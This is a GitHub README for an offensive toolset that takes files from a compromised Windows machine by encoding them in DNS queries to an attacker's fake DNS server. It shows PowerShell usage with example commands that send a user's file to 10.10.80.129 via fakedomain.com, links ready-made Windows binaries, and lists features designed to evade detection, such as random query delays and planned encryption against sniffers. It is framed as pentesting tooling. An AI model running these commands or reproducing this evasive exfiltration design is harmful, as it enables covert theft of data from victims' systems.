 # DNS Exfil Tools

Simple penetration testing tools to execute file exfiltration through DNS and avoid common detection methods.

> Modules caption: \
:heavy_check_mark: Available \
:large_blue_circle: Under development \
:white_circle: To be developed

<br>

## Client Exfiltration
Deploy these tools on the target machine to exfiltrate files through DNS requests.
I'm still developing the client side for more than one programming language, to provide more compatibility with the system you are testing.

| Language | Available | Compression | Encryption |
| ------ | ------ | ------ | ------ |
| python3      | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:heavy_check_mark:     | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_blue_circle: | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_blue_circle: |
| powershell   | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:heavy_check_mark:     | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_blue_circle: | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_blue_circle: |
| python2      | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_blue_circle:    | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: |
| x86 Win binaries | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:heavy_check_mark: | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: |
| x64 Win binaries | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:heavy_check_mark: | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: |

<br>

### Powershell Module
Use the cmdlet `Get-Help` to get execution informations. You can use `Get-Help -detailed` to print a decent overview. \
Here is an instance:
```
NAME
    C:\Users\User\Desktop\dnsexfil.ps1

SYNOPSIS
    Post-exploitation tool to execute DNS exfiltration to your pentesting machine

SYNTAX
    C:\Users\User\Desktop\dnsexfil.ps1 [-Server] <String> [-Domain] <String> [-File] <String> [[-Timeout] <Single>]
    [[-Length] <Int32>] [-Hash] [<CommonParameters>]


DESCRIPTION
    Post-exploitation tool to execute DNS exfiltration to your pentesting machine
    At leats three parameters are needed:
    - Specify DNS resolver as Server parameter
    - Specify filename
    - Specify the fake or legit domain you want to query
    The fakeDNS-server must be listening on your machine

PARAMETERS
    -Server <String>
        (Required) IP address of the listening DNS resolver

    -Domain <String>
        (Required) Fake or legit domain for DNS queries. Your fakeDNS-server will answer to both

    -File <String>
        (Required) Path to the file to exfiltrate through DNS queries

    -Timeout <Single>
        (Optional) Set a timeout between queries to slow down or speed up exfiltration. Default value is 2s

    -Length <Int32>
        (Optional) Set the third domain length. Default value is 16

    -Hash [<SwitchParameter>]
        (Optional) Include hash calculation in exfiltration for integrity purposes

    <CommonParameters>
        This cmdlet supports the common parameters: Verbose, Debug,
        ErrorAction, ErrorVariable, WarningAction, WarningVariable,
        OutBuffer, PipelineVariable, and OutVariable. For more information, see
        about_CommonParameters (https:/go.microsoft.com/fwlink/?LinkID=113216).

    -------------------------- EXAMPLE 1 --------------------------
    PS C:\>.\dnsexfil.ps1 -Server 10.10.80.129 -d fakedomain.com -File C:\Users\Name\file.txt

    Use 10.10.80.129 as the fakeDNS-server, and send the file C:\Users\Name\file.txt asking for resolution of [***].fakedomain.com:

    -------------------------- EXAMPLE 2 --------------------------
    PS C:\>.\dnsexfil.ps1 -Server 10.10.80.129 -d fakedomain.com -File C:\Users\Name\file.txt -Length 32 -Timeout 10 -Hash

    DNS queries will be like [32-long-chunk].fakedomain.com and will be going out every 10 seconds
```

<br>

### Windows Binaries
Windows binaries are the PE version of the powershell script above. I used the awesome 
interference-security's [PS2EXE](https://github.com/interference-security/PS2EXE) utility to quickly get the 32 and 64 bit versions.

Usage is the same as powershell's.

They are both located in [rhosts-tools/WinBinaries](https://github.com/synth3sis/DNSexfiltools/tree/main/rhost-tools/WinBinaries/).


<br>

---

### Features and @TODOs
| | |
| ------ | ------ | 
| :heavy_check_mark:  | Set timeout between DNS requests to slow down exfiltration and prevent detection |
| :heavy_check_mark:  | Set random timeout between requests to prevent periodically checks detection |
| :heavy_check_mark:  | Set fake domain or legit domain for DNS queries, the DNS server listening on your machine will respond to both |
| :heavy_check_mark:  | Set custom exfiltration third level domain chunks length |
| :heavy_check_mark:  | Send filename as first action |
| :heavy_check_mark:  | Optional: md5 file hash trasmission before file content for integrity checks|
| :large_blue_circle: | Optional: print server's response as record A resolution to verify queries |
| :large_blue_circle: | Optional: Compress files to exfiltrate to speed up the process |
| :white_circle:      | Optional: file encryption to prevent network sniffers to rebuild exfiltrated artifacts |
| :white_circle:      | Optional: Send multiple files at once |
| :white_circle:      | Optional: Send entire directory as compressed file |

<br>
<br>

## Fake DNS Server
Developed with Python3, the server module will provide a simple fake DNS server to get client's queries from your attacking machine, and responde with a spoofed IP of your choice (default is google.com's).

### Features and @TODOs
| | |
| ------ | ------ | 
| :heavy_check_mark:  | Set custom IP to spoof as record A response |
| :heavy_check_mark:  | Set custom domain for further automated file decode |
| :heavy_check_mark:  | Set custom UDP port for DNS service (default is 53) |
| :large_blue_circle: | Get filename from exfiltration first chunk |
| :large_blue_circle: | Optional: automated file decode/save |
| :large_blue_circle: | Optional: compressed files receiving capabilities |
| :white_circle:      | Optional: file decryption and save |

<br>
<br>

## How it Works
### Attacker Side (fake DNS server)
![](https://raw.githubusercontent.com/synth3sis/DNSexfiltools/main/media/fakeDNS-server3.gif)
### Victim Side (exfiltration tool)
![](https://raw.githubusercontent.com/synth3sis/DNSexfiltools/main/media/dnsexfil3.gif)
